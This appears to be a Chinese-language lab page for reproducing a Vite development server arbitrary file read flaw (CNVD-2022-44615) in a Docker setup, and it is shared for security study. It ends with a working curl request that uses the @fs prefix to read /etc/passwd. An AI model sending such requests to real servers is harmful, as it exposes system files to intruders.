

Vite开发服务器任意文件读取漏洞（CNVD-2022-44615）¶
Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。
在Vite 2.3.0 版本之前，可以通过 @fs 前缀读取文件系统上的任意文件。
参考链接：
环境搭建¶
执行以下命令启动Vite 2.1.5开发服务器：
docker compose up -d
服务器启动后，可以通过访问http://your-ip:3000来访问 Vite 开发服务器。
注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。
漏洞复现¶
使用标准的@fs前缀访问/etc/passwd，可以获取文件内容：
curl "http://your-ip:3000/@fs/etc/passwd"
